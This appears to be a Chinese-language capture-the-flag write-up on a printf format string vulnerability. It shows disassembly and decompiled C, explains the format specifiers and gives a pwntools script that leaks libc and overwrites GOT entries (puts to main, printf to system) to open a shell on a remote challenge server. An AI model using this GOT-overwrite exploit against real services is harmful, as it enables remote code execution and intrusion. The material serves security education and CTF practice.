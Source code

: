 # 格式化字符串
## 漏洞点

``` printf的汇编代码
.text:00000000004006E1                 lea     rdi, aInteresting ; "Interesting "
.text:00000000004006E8                 mov     eax, 0
.text:00000000004006ED                 call    _printf
.text:00000000004006F2                 lea     rax, [rbp+buf]
.text:00000000004006F9                 mov     rdi, rax        ; format  //很明显的格式化字符串漏洞
.text:00000000004006FC                 mov     eax, 0
.text:0000000000400701                 call    _printf
.text:0000000000400706                 lea     
```
如果不清楚，可以看其源码

```
unsigned __int64 sub_40069D()
{
  char buf; // [rsp+0h] [rbp-410h]
  unsigned __int64 v2; // [rsp+408h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("What do you mean this time? ");
  read(0, &buf, 0x400uLL);
  printf("Interesting ", &buf);
  printf(&buf);  //格式化字符串漏洞
  puts(" food for thought");
  return __readfsqword(0x28u) ^ v2;
}
```
## 利用漏洞点
1. 先说一下printf的格式化字符串：</br>
<ul>
  <li> %c：输出字符，配上%n可用于向指定地址写数据。</li>
  <li>%d：输出十进制整数，配上%n可用于向指定地址写数据。</li>
  <li>%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。</li>
  <li>%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是   64bit。</li>
  <li>%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。</li>
  <li>%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。</li>
  <li>%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。</li>
</ul>

printf的参数是可变的，可以是一个，两个，或者没有。printf会根据内存顺序读取参数，如果有格式化字符，就顺序分析。
2. __利用思路__:首先确定格式化字符串在栈中的偏移，这里想要一直利用格式化字符串的漏洞，就得让其“循环”起来，可以一直调用printf函数。这里修改函数中用的最多的函数put为main函数地址，可以多次利用printf的漏洞，通过%s来泄漏在printf前运行过的函数，这里通过泄漏read的地址来泄漏libc，从而得到system地址。最后修改printf的got地址为system地址，在程序调用printf时，实际上是调用的system函数，最后，send‘/bin/sh\x00’作为system的参数。

## 利用脚本
这道题目的偏移量为6。</br>

```
from pwn import *
from LibcSearcher import LibcSearcher
r = remote("vps1.blue-whale.me",19904)
elf = ELF('./pwn1')
#context.log_level='debug'

//修改puts_got地址为main的地址，达到多次利用漏洞的效果
main_addr = 0x40069D
puts_got = elf.got['puts']
r.recvuntil("What do you mean this time? ")
payload = "a%" + str(main_addr-1) + "c%8$lln" + p64(puts_got)  //这里为什么不用hhn?因为地址中有\x00，由于64位下用户可见的内存地址高位都带有\x00，容易截断我们构造的内容，所以把地址放在后边。其实作用一样，地址放哪都一样。这里的8是因为a%..c和%8$lln占了两个参数，分别为第六和第七个参数。相对于printf为第7和第8个参数。
#print payload
r.sendline(payload)

//泄漏read地址
read_got = elf.got['read']
r.recvuntil("What do you mean this time? ")
payload = "AAAA%7$s" + p64(read_got) //AAAA%7$s占一个参数，为第六个参数
r.sendline(payload)
r.recvuntil("Interesting ")
read_addr=u64(r.recvuntil("\x30",drop=True)[4:].ljust(8,'\x00'))
print hex(read_addr)

//泄漏libc,得到system地址
libc = LibcSearcher("read",read_addr)
libcbase = read_addr-libc.dump('read') 
system_addr = libcbase +libc.dump('system')
print hex(system_addr)

//修改printf_got为system地址，由打印出的地址可以看出，除了最后三个字节，其他字节都一样，system地址分三次单字节写入即可。
printf_got = elf.got['printf']
print hex(printf_got)
first = system_addr & 0xff  //低字节
second = (system_addr>>8) & 0xff //倒数第二个字节
third = (system_addr>>16) & 0xff //最后一个字节
payload = "%" + str(first) + "c%11$hhn"   //这里的11，是前边格式化字符串占了参数的位置，即顺序后延，格式化字符的第一个参数是在偏移11的位置，n是把输出字符的个数写入相应位置，把低字节\x..转为十进制的字符串，c表示字符个数，%123c表示123个字符串，在写入内存时，又以十六进制的形式写入，即把低字节\x..写入
payload += "%" + str(256-first+second) + "c%12$hhn"  //这里为什么用256减，因为要想把第二个字节写入，得需要减去第一个字节的个数，有可能第二个字节小于第一个字节，相减得到负数就会出错，这里向高位借1，即0x100=256,相当于取模。比如0x550423,第二个字节为0x04,而第一个字节为0x23,0x100+0x04-0x23=0xE1,实际写入的是0xE1+0x23=0x104,但是是单字节写入，会把高位给移出，还是写入的0x04。
payload += "%" + str(256-second+third) + "c%13$hhn"
payload += 'AAAA' //剩下的字节随便填充即可

if len(str(first))<3: //这里保证写入的地址为8的整数倍
    payload += 'A'
if len(str(256-first+second))<3:
    payload += 'A'
if len(str(256-first+third))<3:
    payload += 'A'
payload += p64(printf_got)
payload += p64(printf_got + 1)
payload += p64(printf_got + 2)

r.sendline(payload)

r.sendline("/bin/sh\x00") //printf("/bin/sh")-->system("/bin/sh")

r.interactive()

```

## 参考文章：
http://www.sohu.com/a/130725162_472906 </br>
https://www.cnblogs.com/ichunqiu/p/9329387.html
